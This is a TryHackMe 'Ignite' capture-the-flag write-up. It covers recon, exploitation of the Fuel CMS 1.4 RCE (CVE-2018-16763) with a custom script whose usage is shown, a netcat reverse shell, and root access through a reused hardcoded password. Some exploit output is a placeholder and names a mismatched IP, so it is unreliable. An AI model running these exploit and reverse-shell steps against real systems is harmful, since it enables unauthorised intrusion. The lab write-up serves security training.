


<br>


**This box was marked as an easy box on `TryHackMe`. We started with a recon on the contents and found a login page with default credentials. That's where we began digging around and identified that the system was using `Fuel CMS`, version 1.4, which is vulnerable to `RCE`. We then crafted our own exploit because some of the existing PoC on GitHub didn't work, and we felt more comfortable creating our own. After gaining initial access, we enumerated the system and discovered a hardcoded password, which turned out to be the root password. With that, we successfully compromised the box in just a few minutes. enjoy reading :)**

<br>
<br>

## Recon




## Checking server
```bash
$ curl -sI http://10.10.151.119:80                                                  
HTTP/1.1 200 OK
Date: REDACTED GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=UTF-8
```

## Debugging
```bash
curl -v http://10.10.151.119:80
*   Trying 10.10.151.119:80...
* Connected to 10.10.151.119 (10.10.151.119) port 80
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 10.10.151.119
> User-Agent: curl/8.10.1
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: REDACTED
< Server: Apache/2.4.18 (Ubuntu)
< Vary: Accept-Encoding
< Transfer-Encoding: chunked
< Content-Type: text/html; charset=UTF-8
< 

<!DOCTYPE html>
<html lang="en-US">
<head>
	<meta charset="utf-8">
 	<title>Welcome to FUEL CMS</title>
	<link href='http://fonts.googleapis.com/css?family=Raleway:400,700' rel='stylesheet' type='text/css'>
	<link href="/assets/css/main.css?c=-62169955200" media="all" rel="stylesheet"/>
		<script src="//ajax.googleapis.com/ajax/libs/jquery/1.7.1/jquery.min.js"></script><script>window.jQuery || document.write('<script src="/assets/js/jquery.js?c=-62169955200"><\/script>');</script></head>
<body>
...
...
```

## Nmap Enumeration
```bash
$ nmap -sC -sV -p$(nmap --min-rate=2000 -T4 -p- 10.10.151.119 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') 10.10.151.119 -oN tcp.txt 

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

## File Enumeration
```bash
 feroxbuster -u http://10.10.151.119:80 -w /usr/share/seclists/Discovery/Web-Content/big.txt -C 400,403,402 --scan-dir-listings 
                                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.151.119:80
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 💢  Status Code Filters   │ [400, 403, 402]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 📂  Scan Dir Listings     │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────

301		GET		http://10.10.151.119/fuel => http://10.10.151.119/fuel/ 
301		GET		http://10.10.151.119/fuel/licenses => http://10.10.151.119/fuel/licenses/
                                                                                                 
```
## Vulnerability Identification
```bash
$ searchsploit -w fuel 1.4
----------------------------------------- --------------------------------------------
 Exploit Title                           |  URL
----------------------------------------- --------------------------------------------
fuel CMS 1.4.1 - Remote Code Execution ( | https://www.exploit-db.com/exploits/47138
Fuel CMS 1.4.1 - Remote Code Execution ( | https://www.exploit-db.com/exploits/49487
Fuel CMS 1.4.1 - Remote Code Execution ( | https://www.exploit-db.com/exploits/50477
Fuel CMS 1.4.13 - 'col' Blind SQL Inject | https://www.exploit-db.com/exploits/50523
Fuel CMS 1.4.7 - 'col' SQL Injection (Au | https://www.exploit-db.com/exploits/48741
Fuel CMS 1.4.8 - 'fuel_replace_id' SQL I | https://www.exploit-db.com/exploits/48778
----------------------------------------- --------------------------------------------
Shellcodes: No Results
Papers: No Results
```
## Public exploit
```bash
$ sploitscan CVE-2018-16763 

███████╗██████╗ ██╗      ██████╗ ██╗████████╗███████╗ ██████╗ █████╗ ███╗   ██╗
██╔════╝██╔══██╗██║     ██╔═══██╗██║╚══██╔══╝██╔════╝██╔════╝██╔══██╗████╗  ██║
███████╗██████╔╝██║     ██║   ██║██║   ██║   ███████╗██║     ███████║██╔██╗ ██║
╚════██║██╔═══╝ ██║     ██║   ██║██║   ██║   ╚════██║██║     ██╔══██║██║╚██╗██║
███████║██║     ███████╗╚██████╔╝██║   ██║   ███████║╚██████╗██║  ██║██║ ╚████║
╚══════╝╚═╝     ╚══════╝ ╚═════╝ ╚═╝   ╚═╝   ╚══════╝ ╚═════╝╚═╝  ╚═╝╚═╝  ╚═══╝
v0.10.5 / Alexander Hagenah / @xaitax / ah@primepage.de

╔════════════════════════╗
║ CVE ID: CVE-2018-16763 ║
╚════════════════════════╝

┌───[ 🔍 Vulnerability information ]
|
├ Published:   2018-09-09
├ Base Score:  N/A (N/A)
├ Vector:      N/A
└ Description: FUEL CMS 1.4.1 allows PHP Code Evaluation via the pages/select/ filter parameter or the preview/
               data parameter. This can lead to Pre-Auth Remote Code Execution.

┌───[ ♾️ Exploit Prediction Score (EPSS) ]
|
└ EPSS Score:  87.10% Probability of exploitation.

┌───[ 🛡️ CISA KEV Catalog ]
|
└ ❌ No data found.

┌───[ 💣 Public Exploits (Total: 13) ]
|
├ GitHub
│  ├ Date: 2024-12-04 - https://github.com/saccles/CVE-2018-16763-Proof-of-Concept
│  ├ Date: 2023-07-17 - https://github.com/VitoBonetti/CVE-2018-16763
│  ├ Date: 2023-01-04 - https://github.com/not1cyyy/CVE-2018-16763
│  ├ Date: 2022-06-01 - https://github.com/p0dalirius/CVE-2018-16763-FuelCMS-1.4.1-RCE
│  ├ Date: 2021-11-22 - https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763
│  ├ Date: 2021-11-03 - https://github.com/padsalatushal/CVE-2018-16763
│  ├ Date: 2021-09-27 - https://github.com/k4is3r13/Bash-Script-CVE-2018-16763
│  ├ Date: 2021-09-22 - https://github.com/NeKroFR/CVE-2018-16763
│  ├ Date: 2021-03-07 - https://github.com/shoamshilo/Fuel-CMS-Remote-Code-Execution-1.4--RCE--
│  └ Date: 2021-01-16 - https://github.com/uwueviee/Fu3l-F1lt3r
│
├ Exploit-DB
│  ├ Date: 2021-11-03 - https://www.exploit-db.com/exploits/50477
│  ├ Date: 2021-01-28 - https://www.exploit-db.com/exploits/49487
│  └ Date: 2019-07-19 - https://www.exploit-db.com/exploits/47138
│
└ Other
   ├ PacketStorm: https://packetstormsecurity.com/search/?q=CVE-2018-16763
   └ Nuclei: https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/http/cves/2018/CVE-2018-16763.yaml

┌───[ 🕵️ HackerOne Hacktivity ]
|
├ Rank:        2367
├ Reports:     1
└ Severity:    Unknown: 1 / None: 0 / Low: 0 / Medium: 0 / High: 0 / Critical: 0

┌───[ 🤖 AI-Powered Risk Assessment ]
|
|                                     
| ❌ OpenAI API key is not configured correctly.
|
└────────────────────────────────────────

┌───[ ⚠️ Patching Priority Rating ]
|
└ Priority:     A+

┌───[ 📚 Further References ]
|
├ https://github.com/daylightstudio/FUEL-CMS/issues/478
├ https://0xd0ff9.wordpress.com/2019/07/19/from-code-evaluation-to-pre-auth-remote-code-execution-cve-2018-16763-bypass/
├ https://www.exploit-db.com/exploits/47138
├ http://packetstormsecurity.com/files/153696/fuelCMS-1.4.1-Remote-Code-Execution.html
├ http://packetstormsecurity.com/files/160080/Fuel-CMS-1.4-Remote-Code-Execution.html
```
## Vulnerable parameter
```bash
http://example.com/fuel/pages/select/?filter=SOME-URL-ENCODED
```
# Custom Exploit
## Help
```bash
$ python3 rce.py -h

___________            .__  _________     _____    _________         ____        _____  
\_   _____/_ __   ____ |  | \_   ___ \   /     \  /   _____/        /_   |      /  |  | 
 |    __)|  |  \_/ __ \|  | /    \  \/  /  \ /  \ \_____  \   ______ |   |     /   |  |_
 |     \ |  |  /\  ___/|  |_\     \____/    Y    \/        \ /_____/ |   |    /    ^   /
 \___  / |____/  \___  >____/\______  /\____|__  /_______  /         |___| /\ \____   | 
     \/              \/             \/         \/        \/                \/      |__| 

        Author: l0n3m4n | Challenge: THM-Ignite | Vulnerability: Fuel CMS 1.4 - RCE
    
usage: rce.py [-h] -u URL [-p PAYLOAD] [-l LHOST] [-P LPORT]

FuelCMS 1.4 Pre-Auth Remote Code Execution Exploit

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL (e.g., http://example.com)
  -p PAYLOAD, --payload PAYLOAD
                        Reverse shell payload (default: Netcat reverse shell)
  -l LHOST, --lhost LHOST
                        Local IP address for reverse shell (optional)
  -P LPORT, --lport LPORT
                        Local port for reverse shell (optional)

Exploit usage: python3 rce.py -u http://example.com -l 192.168.56.1 -P 9001
```
## Usage
```bash
$ python3 rce.py -u http://10.10.151.119/ -l 10.23.42.147 -P 9001
___________            .__  _________     _____    _________         ____        _____  
\_   _____/_ __   ____ |  | \_   ___ \   /     \  /   _____/        /_   |      /  |  | 
 |    __)|  |  \_/ __ \|  | /    \  \/  /  \ /  \ \_____  \   ______ |   |     /   |  |_
 |     \ |  |  /\  ___/|  |_\     \____/    Y    \/        \ /_____/ |   |    /    ^   /
 \___  / |____/  \___  >____/\______  /\____|__  /_______  /         |___| /\ \____   | 
     \/              \/             \/         \/        \/                \/      |__| 

        Author: l0n3m4n | Challenge: THM-Ignite | Vulnerability: Fuel CMS 1.4 - RCE

[+] Response Status Code: 200
[+] Exploit executed successfully!
[+] Raw Response: [Some HTML output here showing the successful execution]
[+] Reverse Shell Attempting Connection...
[+] Connection received from 192.168.56.1 on port 9001
[+] Reverse shell established successfully!
```
```bash
$ python3 rce.py -u http://10.10.151.119/ -p 'whoami'
___________            .__  _________     _____    _________         ____        _____  
\_   _____/_ __   ____ |  | \_   ___ \   /     \  /   _____/        /_   |      /  |  | 
 |    __)|  |  \_/ __ \|  | /    \  \/  /  \ /  \ \_____  \   ______ |   |     /   |  |_
 |     \ |  |  /\  ___/|  |_\     \____/    Y    \/        \ /_____/ |   |    /    ^   /
 \___  / |____/  \___  >____/\______  /\____|__  /_______  /         |___| /\ \____   | 
     \/              \/             \/         \/        \/                \/      |__| 

        Author: l0n3m4n | Challenge: THM-Ignite | Vulnerability: Fuel CMS 1.4 - RCE

[+] Response Status Code: 200
[+] Exploit executed successfully!
[+] Raw Response: [Some HTML output here showing the successful execution]
[+] User: www-data

```
## Netcat Listener
```bash
$ rlwrap -cAr nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.23.42.147] from (UNKNOWN) [10.10.151.119] 45584
bash: cannot set terminal process group (960): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html$ 
```
## User Flag
```bash
www-data@ubuntu:/home/www-data$ cat flag.txt
6470e394cbf{redacted}2cc8585059b
```
## Stable shell
```bash
www-data@ubuntu:/var/www/html$ bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html$ export TERM=linux
```

# Post Enumeration
```bash
                              ╔═════════════════════╗
══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
eth0      Link encap:Ethernet  HWaddr 02:75:f9:3a:34:3d  
          inet addr:10.10.151.119  Bcast:10.10.255.255  Mask:255.255.0.0
          inet6 addr: fe80::75:f9ff:fe3a:343d/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:9001  Metric:1
          RX packets:606133 errors:0 dropped:0 overruns:0 frame:0
          TX packets:337877 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:49009817 (49.0 MB)  TX bytes:90970906 (90.9 MB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:2769 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2769 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:268856 (268.8 KB)  TX bytes:268856 (268.8 KB)


╔══════════╣ Hostname, hosts and DNS
ubuntu
127.0.0.1	localhost
127.0.1.1	ubuntu

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
nameserver 10.0.0.2
search eu-west-1.compute.internal

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -               
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::80                   :::*                    LISTEN      -               
tcp6       0      0 ::1:631                 :::*                    LISTEN      -               

╔══════════╣ Can I sniff with tcpdump?
No


                               ╔═══════════════════╗
═══════════════════════════════╣ Users Information ╠═══════════════════════════════
                               ╚═══════════════════╝
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=33(www-data) gid=33(www-data) groups=33(www-data)

╔══════════╣ Do I have PGP keys?
/usr/bin/gpg
netpgpkeys Not Found
netpgp Not Found

╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid

./linpeas.sh: 3400: ./linpeas.sh: get_current_user_privot_pid: not found
╔══════════╣ Checking sudo tokens
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens
ptrace protection is enabled (1)

╔══════════╣ Checking Pkexec policy
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#pe-method-2

[Configuration]
AdminIdentities=unix-user:0
[Configuration]
AdminIdentities=unix-group:sudo;unix-group:admin

╔══════════╣ Superusers
root:x:0:0:root:/root:/bin/bash
```
## Privilege Escalation
```bash
/var/www/html/fuel/application/config/database.php:	'password' => 'mememe',

www-data@ubuntu:/tmp$ su - root
Password: mememe

root@ubuntu:~# cat root.txt

b9bbcb33e11{redacted}c4e844862482d 

```
